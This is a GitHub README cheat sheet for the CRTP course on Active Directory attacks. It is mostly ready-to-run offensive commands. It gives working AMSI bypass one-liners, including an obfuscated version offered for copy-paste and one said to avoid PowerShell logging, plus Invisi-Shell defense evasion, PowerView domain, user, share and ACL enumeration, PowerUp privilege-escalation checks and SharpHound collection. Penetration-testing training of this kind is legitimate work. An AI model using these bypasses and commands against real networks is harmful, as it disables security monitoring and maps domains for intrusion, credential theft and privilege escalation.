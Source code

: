 # CRTP_Skid
Commands and reference material useful for the CRTP course and Active Directory post-exploitation.

- [CRTP AD Attacks](#CRTP-Skid)
  - [Shell Prep & Defense Evasion](#Shell-Prep-&-Defense-Evasion)  
    - [Invisi-Shell](#Invisi-Shell)
    - [AMSI Bypass](#AMSI-Bypass)
  - [Domain Enumeration](#Domain-Enumeration)  
    - [Powerview](#Powerview)
      - [Domain](#Domain-Enum)
      - [Domain Trust](#Domain-Trust)
      - [Users Groups Computers](#Users-Groups-Computers)
      - [Share Enum](#Share-Enum)
      - [GPO](#Group-Policy-Objects)
      - [Access Control Lists](#Access-Control-Lists)
    - [AD PowerShell Module](#Active-Directory-PowerShell-Module)
   - [Privilege Escalation](#Privilege-Escalation)  
    - [Other Tooling](#Tooling)
      - [Bloodhound](#Bloodhound)
      - [Mimikatz](#Mimikatz)
    - [Links](#Links)
      - [User Hunting](#User_Hunting)

## Shell Prep & Defense Evasion

### [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell)
Invisi-Shell is used in the labs to bypass PowerShell security features by hooking .NET assemblies. Invisi-Shell a batch file for execution (two batch files dependant on current privilege level) that reference the invisi-shell DLL. Note - Invisi-shell may break certain functionality of certain programs run within shell.
```powershell
C:\Path\RunWithRegistryNonAdmin.bat 
C:\Path\RunWithPathAsAdmin.bat
```
### AMSI Bypass 
More AMSI Bypass techniques [here](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)

#### ‘Plain’ AMSI bypass example:
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
#### Obfuscation example for copy-paste purposes:
```powershell
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
#### Another bypass, which is not detected by PowerShell autologging:
```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```
## Domain Enumeration 
### Powerview 
Powerview is referenced quite a bit in the course material, but the Microsoft-signed AD PowerShell Module can also be used and will typically evade AV sigs where PowerView may not if using an unmodified version. 

#### Domain Enum

```powershell 
Get-NetDomain
Get-NetDomain -Domain <domainname>
Get-DomainSID
Get-DomainPolicy (Get-DomainPolicy)."System Access" net accounts
```
#### Domain Trust

```powershell 
Get-NetDomainTrust
Get-NetForest
Get-NetForestDomain
Get-NetforestDomain -Forest <domain name>
Get-NetForestCatalog
Get-NetForestCatalog -Forest <domain name>
Get-NetForestTrust
Get-NetForestTrust -Forest <domain name>
Get-NetForestDomain -Verbose | Get-NetDomainTrust
```
#### Users Groups Computers 
```powershell 
Get-NetDomainController
Get-NetDomainController | select-object Name
Get-NetUser
Get-NetUser -Username <username>
Get-NetUser | select samaccountname
Get-NetUser | select samaccountname, lastlogon, pwdlastset
Get-NetUser | select samaccountname, lastlogon, pwdlastset | Sort-Object -Property lastlogon
Get-NetUser | select samaccountname, memberof
get-userproperty -Properties pwdlastset
Find-UserField -SearchField Description -SearchTerm "built"
Get-netuser | Select-Object samaccountname,description
Get-NetComputer
Get-NetComputer -FullData
Get-NetComputer -Computername <computername> -FullData
Get-NetComputer -OperatingSystem "*Server 2016*"
Get-NetComputer -fulldata | select samaccountname, operatingsystem, operatingsystemversion
Get-NetGroup
Get-NetGroup -GroupName *admin*
Get-NetGroup -Domain <domain>
Get-NetGroupMember -Groupname "Domain Admins" -Recurse
Get-NetGroupMember -Groupname "Domain Admins" -Recurse | select MemberName
Get-NetGroup -Username <username>
Get-NetlocalGroup -Computername <computername> -ListGroups
Get-NetlocalGroup -Computername <computername> -Recurse
Get-NetLoggedon -Computername <computername>
Get-LoggedonLocal -Computername <computername>
Get-LastLoggedOn -ComputerName <computername>
Invoke-UserHunter
Invoke-UserHunter -GroupName <name>
Invoke-UserHunter -CheckAccess
Invoke-UserHunter -Stealth
Find-LocalAdminACcess -Verbose
Find-DomainUserLocation -Verbose
Find-DomainUserLocation -UserGroupIdentity "Group"
```
#### Share Enum

```powershell 
Invoke-ShareFinder -Verbose
Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC
Invoke-FileFinder -Verbose
Get-NetFileServer
```
#### Access Control Lists

```powershell 
Get-ObjectACL -SamAccountName <accountname> -ResolveGUIDS
Get-ObjectACL -ADSprefix ‘CN=Administrator,CN=Users’ -Verbose
Get-PathAcl -Path \\<Domain controller>\sysvol
Invoke-ACLScanner -ResolveGUIDs
Invoke-ACLScanner -ResolveGUIDs | select IdentityReference, ObjectDN, ActiveDirectoryRights | fl
Invoke-ACLScanner | Where-Object {$_.IdentityReference –eq [System.Security.Principal.WindowsIdentity]::GetCurrent().Name}
```

#### Group Policy Objects 

```powershell 
Get-NetGPO
Get-NetGPO -Computername <computername>
Get-NetGPOGroup
Find-GPOComputerAdmin -Computername <computername>
Find-GPOLocation -Username user -Verbose
Get-NetOU -Fulldata
Get-NetOU StudentMachines | %{Get-NetComputer -ADSPath $_}
Get-NetGPO -GPOname "{<gplink>}"
```

#### Active Directory PowerShell Module
- [Microsofts AD PowerShell](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) module can also be used for domain enumeration. 

## Privilege Escalation
Techniques relevant to abusing AD/system misconfiguration and normal Windows functionality to achieve privesc. 
#### Privesc tools/scripts
- [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
- [PrivEsx](https://github.com/enjoiz/Privesc)

```powershell 
Get-ServiceUnquoted -Verbose 
Get-ModifiableServiceFile -Verbose
Get-ModifiableService -Verbose 
```
## Tooling 

I found that the covered tooling in the course is sufficient for achieving CLI access across the hosts in the exam. However, some of the techniques and tools used in the course will not work in the exam due to .NET dependancies. 


#### Bloodhound
Set up Bloodhound/Neo4J on your host before the exam. I ran in to an issue involving OpenJDK vesioning with Neo4J on Catalina, as well as an issue ingesting the collected data using the latest version of Bloodhound. I used the below workarounds. 
- Bloodhound version 9.4.0 (OSX)
  - If you run in to Bloodhound error "file created from incompatible collector" upon import of collected .json files, try running an older version of Bloodhound. See [this](https://github.com/fox-it/Bloodhound.py/issues/69) 
- Neo4J 4.4.9 (OSX)
  - Install older version of OpenJDK 11+ if you run in to issues. See [this](https://gist.github.com/drm317/3e2a9ce4ba1288c4fbaab1e534d71133)

```powershell 
#Start neo4j 
./neo4j console 
#Run collectors 
. ./sharphound.ps1
Invoke-Bloodhound -CollectionMethod all -Verbose
Invoke-Bloodhound -CollectionMethod LoggedOn -Verbose
```
## Links
- [User Hunting](https://sixdub.medium.com/derivative-local-admin-cdd09445aac8)
- [PowerShell Constrained Language Mode](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/)
- [PowerShell Obfuscation (Invoke-Obfuscation)](https://github.com/danielbohannon/Invoke-Obfuscation) 
